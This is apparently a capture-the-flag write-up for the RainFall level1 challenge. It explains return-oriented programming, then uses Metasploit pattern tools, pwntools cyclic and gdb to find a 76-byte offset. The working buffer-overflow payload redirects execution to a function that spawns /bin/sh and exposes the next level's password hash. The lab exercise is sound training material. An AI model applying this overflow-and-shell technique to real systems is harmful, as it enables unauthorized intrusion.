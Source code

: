 ```
ROP, or "Return-oriented Programming," is a technique used in binary exploitation to bypass memory-based protection mechanisms 
such as Data Execution Prevention (DEP) and Address Space Layout Randomization (ASLR). The idea behind ROP is to chain together
small snippets of code, called "gadgets," that are already present in the program's memory. These gadgets are used
to perform malicious actions, such as running shellcode to gain control of the system. Essentially, ROP allows an attacker
to execute arbitrary code by redirecting the program's execution flow to a series of pre-existing code snippets,
rather than injecting new code into memory.
```



level1@RainFall:~$ ./level1 <<< $(python -c 'print("a" * 76)')

Illegal instruction (core dumped)


 the first step in exploitation is to find out the offset. Metasploit aids this process by using two different tools, called pattern_create and pattern_offset.

 in order to build a working exploit, we need to figure out the exact amount of these characters. Metasploit's inbuilt tool called the pattern_create does this for us in no time. It generates patterns that can be supplied instead of A characters and, based on the value which overwrote the EIP register, we can easily figure out the exact number of bytes using its counterpart tool pattern_offset.
- Metasploit Revealed _ Secrets of the Expert Pentester (2017) pp 318


./pattern create 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

this output can be fed to the vulnerable application as follows:
```
(gdb) run <<< "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"
Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? () 
```
We have 0x63413563 as the address that overwrote EIP register.

Let's figure out the exact number of bytes required to overwrite the EIP with the pattern_offset tool. This tool takes two arguments; the first one is the address and the second one is the length, which was 200 as generated using pattern_create:
```
./pattern offset 0x63413563 200
76
```
The exact match is found to be at 76. Therefore, any 4 bytes after 76 characters becomes the contents of the EIP register.

- Metasploit Revealed _ Secrets of the Expert Pentester (2017) pp 318-320

lets make sure of the above finding:
```
(gdb) run <<< $(python -c 'print "-" * 76 + "AAAA" ')
Segmentation fault.
0x41414141 in ??
```

```
The cause of crash was that the application failed to process the address of the next instruction,
located at 41414141. The value 41 is the hexadecimal representation of character A.
What actually happened is that our input, extending through the boundary of the buffer, 
went on to overwrite the EIP register. Therefore, since the address of the next instruction was overwritten,
the program tried to find the address of the next instruction at 41414141, which was not a valid address. Hence, it crashed.

- Metasploit Revealed _ Secrets of the Expert Pentester (2017) pp 316
```

```
(gdb) info func
All defined functions:
[..]
0x08048444  run

or :
objdump -t level1 | grep text

objdump -S level1 | grep -A 20 run
```

b.Ninja for run func:
```
fwrite {"Good... Wait what?\n"}
return system(/bin/sh)
```
0x08048444 little endian : \x44\x84\x04\x08

all what we need to do is make the EIP point to the addr of run function which runs the shell
```
python -c 'import struct; print("-" * 76 + struct.pack(">L",0x44840408))' > /tmp/payload

python -c 'print "-" * 76 + "\x44\x84\x04\x08"' > /tmp/test

level1@RainFall:~$ cat /tmp/payload -  | ./level1
Good... Wait what?
pwd
/home/user/level1
cat /home/user/level1/.pass
cat: /home/user/level1/.pass: Permission denied
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```


==
```
struct = Interpret bytes as packed binary data
struct.pack takes non-byte values (e.g. integers, strings, etc.) and converts them to bytes.
Format Strings
< little-endian
> big-endian
```

Payload: This is a piece of code that runs at the target after a successful exploitation is done. It defines the actions we want to perform on the target system.

Payloads
To understand what a payload does, let's consider a real-world example. A military unit of a certain country develops a new missile that can travel a range of 500 km at very high speed. Now, the missile body itself is of no use unless it's filled with the right kind of ammunition. Now, the military unit decided to load high explosive material within the missile so that when the missile hits the target, the explosive material within the missile explodes and causes the required damage to the enemy. So, in this case, the high explosive material within the missile is the payload. The payload can be changed based on the severity of damage that is to be caused after the missile is fired.
Similarly, payloads in the Metasploit Framework let us decide what action is to be performed on the target system once the exploit is successful. 

- Metasploit Revealed _ Secrets of the Expert Pentester -  Build your Defense against Complex Attacks-Packt Publishing (2017)

==
to detect the offset u could also use the cyclic script from the pawn tools 

https://github.com/arthaud/python3-pwntools/blob/master/pwnlib/commandline/cyclic.py
```
cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

run <<< "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
Seg
eip value 0x61616174 

hex 0x61616174 to text is: "aaat" but since LSB it's "taaa"

using cyclic again:

cyclic -l taaa
76

r <<< $(python -c 'print ("A" * 76 + "B")')
```
===
```
(gdb) disas main

 0x08048490 <+16>:    call   0x8048340 <gets@plt>
 
 0x08048495 <+21>:    leave
 
 break just after gets: 0x08048495
 
  run <<< "AAAAAAAAAAAAAAAAAAAA"
  
  eip at 0xbffff72c
  
  (gdb) x/30wx $esp
  
0xbffff6d0:     0xbffff6e0      0x0000002f      0xbffff72c      0xb7fd0ff4

0xbffff6e0:     0x41414141
 
(gdb) x/c 0xbffff6e0

0xbffff6e0:     65 'A'

(gdb) p/d 0xbffff72c - 0xbffff6e0

$2 = 76
```

